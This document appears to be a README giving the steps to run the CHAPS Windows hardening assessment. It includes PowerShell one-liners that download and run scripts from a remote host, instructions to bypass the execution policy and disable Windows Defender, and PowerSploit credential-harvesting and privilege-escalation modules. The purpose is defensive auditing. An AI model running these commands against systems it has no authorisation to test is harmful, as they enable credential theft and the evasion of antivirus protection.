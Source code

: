 # CHAPS Assessment Steps
Running CHAPS may be confusing. The following list is a simple process for running an assessment to obtain configuration / hardening information from a Windows workstation or server. The first set of steps are scripts that can be used to gather information about the system using Administrator privileges on the local system. None of these checks will trigger anti-virus as long as the PowerShell execution policy is set to ```bypass```. The steps marked **AV TRIGGER** will trigger Windows Defender and, possibly, other AV / EDR solutions. These steps should be run as a local user, NOT Administrator, to limit false positives for Elevation of Privilege (EoP) vulnerabilities.

# Run CHAPS
## Start Web Server

On Linux system with CHAPS and other tools installed, note the IP address and start a Python web server. For this example, all tools are installed in the user's home directory in a subdirectory named Tools.

```cd ~/Tools```
```ip addr```
```python3 -m http.server 8181```

## Start Powershell or Windows Terminal as Administrator

Locate PowerShell or Windows Terminal in start menu, hold shift, right click, and select "Run as administrator".

## Allow Powershell to run scripts

```Set-ExecutionPolicy Bypass```

## Run Chaps 

```IEX (New-Object Net.WebClient).DownloadString('http://192.168.139.4:8181/chaps/chaps.ps1')```


## Review CHAPS Tool Output 
Check the user's AppData temp directory. In a Windows Explorer terminal, type the following in the address bar. Find the latest run of CHAPS and check output.

```%temp%```

# Run Active Directory Recon Scripts
## Run Trimarc AD Script. 
See: [Trimarc: Securing Active Directory: Performing an Active Directory Security Review](https://www.hub.trimarcsecurity.com/post/securing-active-directory-performing-an-active-directory-security-review)

IEX (New-Object Net.WebClient).DownloadString('http://192.168.139.4:8181/TrimarcAD/Invoke-TrimarcADChecks.ps1')

# Run Third-Party OS Hardening Evaluation Scripts
## Review Tool output 
c:\temp\Trimarc-ADReports

## Run Otorio PCS7 Hardening. 
See [Otorio: Siemens Simatic PCS 7 Hardening Tool](https://github.com/otoriocyber/PCS7-Hardening-Tool). Output is written to the screen.

IEX (New-Object Net.WebClient).DownloadString('http://192.168.139.4:8181/Otorio/PCS7-Hardening-Tool/PCS7Hardening.ps1')

# Run CHAPS-PowerSploit - **AV TRIGGER**
**BEWARE** The following steps will trigger AV and block the scripts from running unless it is disabled. The following steps do not permanently disable Windows Defender. However, if not set back, the settings will not revert until the system is rebooted. **BEWARE**

## Disable Windows Defender 

Disable Manually, because scripting this requires a registry update in current Windows OSes. Also, performing this manually makes it easier to not skip the enabling step.

## Run Chaps PowerSploit as Local non-admin User 
From an Administrator PowerShell or WindowsTerminal, start Powershell for user with bypass 

```runas /user:student 'powershell.exe -exec bypass'```

## Run Chaps Powersploit 

```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.139.4:8181/PowerSploit/Recon/PowerView.ps1')
IEX (New-Object Net.WebClient).DownloadString('http://192.168.139.4:8181/PowerSploit/Exfiltration/Get-GPPPassword.ps1')
IEX (New-Object Net.WebClient).DownloadString('http://192.168.139.4:8181/PowerSploit/Exfiltration/Get-GPPAutologon.ps1')
IEX (New-Object Net.WebClient).DownloadString('http://192.168.139.4:8181/PowerSploit/Exfiltration/Get-VaultCredential.ps1')
IEX (New-Object Net.WebClient).DownloadString('http://192.168.139.4:8181/PowerSploit/Privesc/PowerUp.ps1')
IEX (New-Object Net.WebClient).DownloadString('http://192.168.139.4:8181/chaps/chaps-powersploit.ps1')

```

## Enable Windows Defender 

**DO NOT SKIP** Enable AV Manually **DO NOT SKIP** 

## Review Tool output 

```%temp%```

## Store and delete old runs

**DO NOT SKIP** Do not leave old CHAPS and tool runs on the system. This information is valuable for attackers. If they can download these files, they don't have to run the queries on the local system and the network again. We want to force attackers to gather this information because we can detect that activity in Windows Event logs and network traffic. **DO NOT SKIP** 